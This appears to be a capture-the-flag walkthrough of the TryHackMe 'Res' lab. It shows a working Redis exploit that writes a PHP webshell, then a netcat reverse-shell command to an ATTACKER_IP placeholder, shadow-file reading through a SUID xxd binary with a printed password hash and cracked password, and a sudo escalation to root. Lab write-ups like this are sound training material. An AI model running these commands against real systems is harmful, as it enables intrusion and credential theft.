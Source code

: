 ```yaml
---
layout: post
author: Ayman ZERDA
tags: [TryHackme, Res]
---
```


![header](/images/header1.png)

**Link:** [Res](https://tryhackme.com/room/res)

## Description : 
Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!

--- 

## Enumeration :
let's scan the target with nmap

```bash
nmap -sC -sV -T4 -p- 10.10.239.82 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 10.10.239.82
Host is up (0.10s latency).
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.04 seconds
```

* we got 2 open ports: 80 (apache web server) and 5279 (Redis which is a data structure storage service)
* i did some research and i found some enumeration steps for [Redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)
* we can connect to redis service via redis-cli without credentials

**how to install redis-tools**

```bash
sudo apt-get install redis-tools
```

## Foothold :

* To achieve RCE we need to know the web directory, by default it's /var/www/html and we can be sure if we look at the apache web server
![proof](/images/proof.png)

* Run the following commands to achieve RCE :


```bash
redis-cli -h 10.10.239.82
 
10.10.239.82:6379> config set dir /var/www/html
OK
10.10.239.82:6379> config set dbfilename shell.php
OK
10.10.239.82:6379> set test "<?php system($_GET['cmd']) ?>"
OK
10.10.239.82:6379> save
OK
10.10.239.82:6379> exit
```


**let's start a netcat listener**


```bash
# nc -lvnp 1234
```

**let's trigger the reverse shell by visiting:**

```bash
http://10.10.239.82/shell.php?cmd=nc ATTACKER_IP PORT -e /bin/bash
```

![website](/images/revshell.png)

* we are in as www-data

```bash
# nc -lvnp 1234                         
listening on [any] 1234 ...
connect to [10.18.2.136] from (UNKNOWN) [10.10.239.82] 51758
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

* we can upgrade the revese shell using the following commands

```bash
# python3 -c 'import pty;pty.spawn("/bin/bash")'
# export TERM=xterm
PRESS CTRL+Z
# stty raw -echo; fg
```

## Horizontal Privilege Escalation :
* We can see that there is a user called Vianka
* Let's check the files that have the SUID bit set
```bash
find / -perm -u=s -type f 2>/dev/null
``` 
![suid](/images/suid.png)

* The results show a binary xxd with the SUID bit set and the owner is root

* next step is to visit [GTFOBins](https://gtfobins.github.io/#)

![xxd](/images/xxd.png)

* We can read any file as root
* Let's read the shadow file and see if we can crack Vianka's hash

```bash
www-data@ubuntu:/home/vianka$ xxd /etc/shadow | xxd -r 
xxd /etc/shadow | xxd -r 
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
**crack Viank's hash with john**
![hash](/images/hash.png)

* switch user to vianka and get the flag 

![user-flag](/images/user-flag.png)

## Vertical Privilege Escalation :
* Let's check sudo privileges

```bash
vianka@ubuntu:~$ sudo -l
sudo -l
[sudo] password for vianka: beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```
* Vianka can run any commands with sudo
* All we need to do is run **sudo su**

![root-flag](/images/root-flag.png)
